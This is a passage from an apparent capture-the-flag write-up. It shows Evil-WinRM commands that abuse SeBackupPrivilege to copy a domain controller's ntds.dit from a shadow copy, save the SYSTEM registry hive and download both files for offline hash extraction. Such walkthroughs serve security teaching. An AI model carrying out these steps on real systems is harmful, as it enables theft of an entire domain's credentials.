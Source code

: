 Once all the files have been uploaded, we can begin the process of extracting the NTDS.dit file

First, run diskshadow on the `disk_shadow.txt` file.

![disk_shadow](/assets/img/posts/blackfield/disk_shadow.png)

Next, import the SeBackupPrivilege dlls as modules.

```powershell
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\tmp> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

Then, we can copy the NTDS.dit file from the backup.

```powershell
*Evil-WinRM* PS C:\tmp> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\tmp\ntds.dit
```

Finally, we can save the SYSTEM registry hive.

```powershell
*Evil-WinRM* PS C:\tmp> reg save HKLM\SYSTEM C:\tmp\system
```

Now, we can download the files to our local machine.

![download_files](/assets/img/posts/blackfield/download_files.png)

## Getting Administrator hash
